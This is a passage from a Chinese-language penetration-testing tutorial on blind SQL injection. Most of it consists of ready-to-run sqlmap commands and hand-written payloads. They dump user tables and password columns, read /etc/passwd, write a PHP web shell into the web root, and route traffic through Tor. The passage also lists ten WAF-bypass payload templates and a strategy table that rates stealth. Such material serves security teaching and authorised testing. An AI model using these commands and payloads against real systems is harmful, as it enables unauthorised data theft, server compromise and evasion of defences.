# 设置超时（网络不稳定时增加）
sqlmap -u "http://target/page?id=1" --timeout=30

# 设置重试次数
sqlmap -u "http://target/page?id=1" --retries=3

# ==================== 数据提取 ====================

# 枚举数据库
sqlmap -u "http://target/page?id=1" --dbs

# 枚举表
sqlmap -u "http://target/page?id=1" -D mydb --tables

# 枚举列
sqlmap -u "http://target/page?id=1" -D mydb -T users --columns

# 导出数据
sqlmap -u "http://target/page?id=1" -D mydb -T users --dump

# 导出指定列
sqlmap -u "http://target/page?id=1" -D mydb -T users -C "username,password" --dump

# 限制导出行数
sqlmap -u "http://target/page?id=1" -D mydb -T users --dump --start=1 --stop=100

# 搜索特定表/列/数据
sqlmap -u "http://target/page?id=1" --search -T user  # 搜索包含user的表
sqlmap -u "http://target/page?id=1" --search -C pass  # 搜索包含pass的列
sqlmap -u "http://target/page?id=1" --search -T users -C password  # 同时指定

# ==================== POST注入 ====================

# POST请求注入
sqlmap -u "http://target/login" --data="username=admin&password=123" -p username

# Cookie注入
sqlmap -u "http://target/page" --cookie="session=abc123" -p session

# HTTP头注入
sqlmap -u "http://target/page" --headers="X-Forwarded-For: 127.0.0.1\nUser-Agent: Mozilla"

# 自定义注入点标记（*表示注入位置）
sqlmap -u "http://target/page?id=1*&category=2"
```

#### 3.6.2 高级盲注配置

```bash
# ==================== 盲注特有参数 ====================

# 设置布尔盲注的判断条件（当自动识别不准时）
sqlmap -u "http://target/page?id=1" --string="正常内容"  # 包含此字符串=真
sqlmap -u "http://target/page?id=1" --not-string="错误"   # 不包含此字符串=真
sqlmap -u "http://target/page?id=1" --code=200            # HTTP 200=真

# 时间盲注的延迟判断
sqlmap -u "http://target/page?id=1" --time-sec=5          # SLEEP 5秒（默认1秒）

# 调整盲注的比较级别
sqlmap -u "http://target/page?id=1" --level=5  # 最高级别（测试Cookie/UA等）
sqlmap -u "http://target/page?id=1" --risk=3   # 最高风险（使用OR注入等）

# ==================== 性能优化 ====================

# 多线程并发（盲注加速）
sqlmap -u "http://target/page?id=1" --threads=10  # 最多10个并发线程

# 预测算法（基于已知数据推断后续字符）
sqlmap -u "http://target/page?id=1" --predict-output  # 使用常见字符串预测

# 使用session文件（断点续传）
sqlmap -u "http://target/page?id=1" --session="session.sqlite"  # 保存进度
# 下次运行自动恢复进度

# ==================== WAF/IDS绕过 ====================

# 使用tamper脚本绕过WAF
sqlmap -u "http://target/page?id=1" --tamper=space2comment,between,randomcase

# 常用tamper脚本组合
# space2comment: 空格替换为/**/注释
# between: >替换为BETWEEN，=替换为LIKE
# randomcase: 随机大小写
# charencode: URL编码
# base64encode: Base64编码
# greatest: >替换为GREATEST
# equaltolike: =替换为LIKE
# multiplespaces: 多个空格替换关键字之间

# 组合使用
sqlmap -u "http://target/page?id=1" --tamper=space2comment,between,randomcase,charencode

# 自定义User-Agent
sqlmap -u "http://target/page?id=1" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64)"

# 使用代理（绕过IP限制）
sqlmap -u "http://target/page?id=1" --proxy="http://127.0.0.1:8080"

# 设置请求间隔
sqlmap -u "http://target/page?id=1" --delay=2

# ==================== 文件操作 ====================

# 读取服务器文件
sqlmap -u "http://target/page?id=1" --file-read="/etc/passwd"

# 写入文件（WebShell）
sqlmap -u "http://target/page?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# ==================== 其他有用参数 ====================

# 详细输出（调试盲注问题）
sqlmap -u "http://target/page?id=1" -v 3  # 0-6，越高越详细

# 强制使用特定注入payload
sqlmap -u "http://target/page?id=1" --prefix="'" --suffix="-- -"

# 自定义payload（完全覆盖sqlmap的payload）
sqlmap -u "http://target/page?id=1" --custom-payload="1' AND 1=1-- -"

# 测试指定参数
sqlmap -u "http://target/page?id=1&name=test" -p id  # 只测试id参数

# 绕过HTTPS证书验证
sqlmap -u "https://target/page?id=1" --force-ssl

# 使用Tor网络
sqlmap -u "http://target/page?id=1" --tor --tor-type=SOCKS5

# 批量测试
sqlmap -m urls.txt --batch  # urls.txt每行一个URL

# 从Burp请求文件中读取
sqlmap -r request.txt --batch  # request.txt是Burp导出的原始请求
```

#### 3.6.3 sqlmap盲注调试

当sqlmap无法检测到盲注时，常见的排查步骤：

```bash
# 1. 提高输出详细度
sqlmap -u "http://target/page?id=1" -v 3 --technique=BT

# 2. 手动指定注入类型
sqlmap -u "http://target/page?id=1" --technique=B --level=5 --risk=3

# 3. 手动指定布尔条件
sqlmap -u "http://target/page?id=1" --string="成功"  # 或 --not-string="失败"

# 4. 检查自定义payload是否正确
sqlmap -u "http://target/page?id=1" --prefix="'" --suffix="-- -" --technique=B

# 5. 使用--eval执行Python代码（动态修改请求）
sqlmap -u "http://target/page?id=1" --eval="import hashlib; id=hashlib.md5(id.encode()).hexdigest()"

# 6. 检查是否有WAF拦截
sqlmap -u "http://target/page?id=1" --identify-waf

# 7. 绕过WAF
sqlmap -u "http://target/page?id=1" --tamper=space2comment,between,randomcase

# 8. 如果是POST请求，使用Burp导出原始请求
# 将Burp的请求保存到文件，然后：
sqlmap -r request.txt --technique=BT
```

### 3.7 WAF绕过盲注技巧

盲注场景下WAF绕过尤其重要，因为盲注的payload往往包含大量SQL关键字，容易被检测。

#### 3.7.1 关键字绕过

```sql
-- ==================== 空格绕过 ====================
-- 方法1: 注释符
?id=-1'/**/OR/**/1=1-- -
?id=-1'/**/OR/**/ASCII(SUBSTR(database(),1,1))=115-- -

-- 方法2: 特殊字符
?id=-1'%0aOR%0aASCII(SUBSTR(database(),1,1))=115-- -
-- %09=Tab, %0a=换行, %0b=垂直Tab, %0c=换页, %0d=回车

-- 方法3: 括号
?id=-1'OR(ASCII(SUBSTR(database(),1,1)))=115-- -
?id=-1'OR(ASCII((SUBSTR((database()),1,1))))=115-- -

-- ==================== 等号绕过 ====================
-- 方法1: LIKE
?id=-1'OR ASCII(SUBSTR(database(),1,1)) LIKE 115-- -

-- 方法2: REGEXP
?id=-1'OR ASCII(SUBSTR(database(),1,1)) REGEXP 115-- -

-- 方法3: BETWEEN...AND
?id=-1'OR ASCII(SUBSTR(database(),1,1)) BETWEEN 115 AND 115-- -

-- 方法4: IN
?id=-1'OR ASCII(SUBSTR(database(),1,1)) IN (115)-- -

-- 方法5: GREATEST/LEAST
?id=-1'OR GREATEST(ASCII(SUBSTR(database(),1,1)),115)=115-- -

-- ==================== 关键字绕过 ====================
-- SELECT → SELSELECTECT → 双写
?id=-1'OR ASCII(SUBSTR((SELSELECTECT database()),1,1))=115-- -

-- SELECT → /*!50000SELECT*/ → 内联注释
?id=-1'OR ASCII(SUBSTR((/*!50000SELECT*/ database()),1,1))=115-- -

-- ==================== 编码绕过 ====================
-- Hex编码
?id=-1'OR ASCII(SUBSTR(database(),1,1))=0x73-- -  -- 0x73=115

-- 二进制
?id=-1'OR ASCII(SUBSTR(database(),1,1))=b'1110011'-- -

-- Base64（需要解码函数配合）
?id=-1'OR ASCII(SUBSTR(database(),1,1))=TO_BASE64('s')-- -
```

#### 3.7.2 常见WAF绕过Payload模板

```sql
-- ==================== 常见WAF绕过的布尔盲注Payload ====================

-- Payload 1: 空格用/**/替代，等号用LIKE替代
-1'/**/OR/**/ASCII(SUBSTR(database(),1,1))/**/LIKE/**/115-- -

-- Payload 2: 使用括号嵌套
-1'OR(ASCII(SUBSTR(database(),1,1)))=(115)-- -

-- Payload 3: 使用内联注释
-1'/*!OR*//*!ASCII*//*!((SUBSTR(database(),1,1)))*/=115-- -

-- Payload 4: 使用十六进制绕过字符串检测
-1'OR ASCII(SUBSTR(database(),1,1))=0x73-- -

-- Payload 5: 使用科学计数法
-1'OR ASCII(SUBSTR(database(),1,1))=1.15e2-- -

-- Payload 6: 使用异或运算
-1'OR (ASCII(SUBSTR(database(),1,1)) ^ 0)=115-- -

-- Payload 7: 使用CASE WHEN
-1'OR (CASE WHEN ASCII(SUBSTR(database(),1,1))=115 THEN 1 ELSE 0 END)=1-- -

-- Payload 8: 使用IF（MySQL特有）
-1'OR IF(ASCII(SUBSTR(database(),1,1))=115,1,0)=1-- -

-- Payload 9: 使用ELT（MySQL特有）
-1'OR ELT(ASCII(SUBSTR(database(),1,1))=115,1,0)=1-- -

-- Payload 10: 使用FIELD（MySQL特有）
-1'OR FIELD(ASCII(SUBSTR(database(),1,1)),115)=1-- -
```

### 3.8 实战技巧与常见问题

#### 3.8.1 盲注字符集处理

```sql
-- ==================== 中文/特殊字符处理 ====================

-- 问题：ASCII只能判断0-127的字符，中文字符超出范围
-- 解决方案1: 使用HEX编码
?id=-1'OR HEX(SUBSTR(database(),1,1))='e7'-- -  -- 中文UTF-8的第一个字节

-- 解决方案2: 使用ORD函数（支持多字节）
?id=-1'OR ORD(SUBSTR(database(),1,1))=231-- -  -- 231=0xE7

-- 解决方案3: 使用CONVERT转码
?id=-1'OR ASCII(CONVERT(SUBSTR(database(),1,1) USING latin1))=231-- -

-- ==================== GROUP_CONCAT长度限制 ====================

-- 问题：MySQL的group_concat_max_len默认1024字节，超长数据会被截断
-- 解决方案：增大限制
?id=-1'; SET SESSION group_concat_max_len=1000000-- -

-- 或使用LIMIT分批获取
?id=-1'OR ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),1,1))=117-- -

-- ==================== NULL值处理 ====================

-- 问题：SUBSTR返回NULL时，ASCII(NULL)也是NULL，条件永远为假
-- 解决方案：使用IFNULL或COALESCE
?id=-1'OR IFNULL(ASCII(SUBSTR(database(),1,1)),0)=115-- -
```

#### 3.8.2 盲注常见错误排查

| 问题 | 可能原因 | 解决方案 |
|------|----------|----------|
| 所有条件都返回"真" | 注入点语法错误，SQL没有执行条件判断 | 检查payload语法，先用`AND 1=1`和`AND 1=2`验证 |
| 所有条件都返回"假" | WAF拦截或关键词被过滤 | 使用tamper脚本或手工绕过 |
| 二分法结果不稳定 | 网络波动导致时间判断错误 | 增加采样次数，使用中位数而非单次测量 |
| 提取的数据乱码 | 字符集编码不匹配 | 使用HEX编码后在本地解码 |
| 速度极慢 | 每个字符都需要多次请求 | 使用sqlmap的`--threads`并发，或使用DNS外带 |
| sqlmap检测不到注入 | 页面响应差异不明显 | 手动指定`--string`/`--not-string`/`--code` |
| 提取的数据被截断 | GROUP_CONCAT长度限制 | 设置`group_concat_max_len`或使用LIMIT分批 |

#### 3.8.3 盲注的实战决策

在实际渗透测试中，选择合适的盲注策略需要综合考虑以下因素：

| 因素 | 布尔盲注 | 时间盲注 | DNS外带 |
|------|---------|---------|---------|
| 速度 | 中等 | 最慢 | 最快 |
| 准确性 | 高 | 受网络影响 | 高 |
| 隐蔽性 | 中（大量请求） | 低（延迟明显） | 高（只触发DNS） |
| 前提条件 | 页面有状态差异 | 无前提条件 | 可发起DNS请求 |
| 适用DBMS | 所有 | 所有 | MSSQL最可靠 |
| WAF敏感度 | 高（大量SQL关键字） | 中 | 低（DNS查询不走HTTP） |

**实战建议**：
1. 先尝试联合查询，不行再尝试报错注入
2. 如果布尔盲注可行，优先使用（比时间盲注快10倍以上）
3. 如果是MSSQL且有网络权限，优先使用DNS外带
4. 时间盲注作为最后手段，delay设为5秒以上避免误判
5. 始终使用二分法或位运算优化，不要逐字符遍历

### 3.9 本节小结

盲注技术是SQL注入中最具普适性的技术——只要有SQL注入点，理论上就能通过盲注提取数据。核心要点：

1. **技术选型**：优先级为联合查询 > 报错注入 > 布尔盲注 > 时间盲注 > DNS外带
2. **效率优化**：二分法（7次/字符）远优于逐字符遍历（95次/字符），位运算同样7次但更稳定
3. **自动化工具**：sqlmap内置了所有盲注技术的完整实现，优先使用
4. **WAF绕过**：空格→注释、等号→LIKE、关键字→双写/内联注释
5. **数据编码**：中文和特殊字符用HEX编码传输，本地解码
6. **实战权衡**：速度、准确性、隐蔽性三者需要根据场景平衡

***

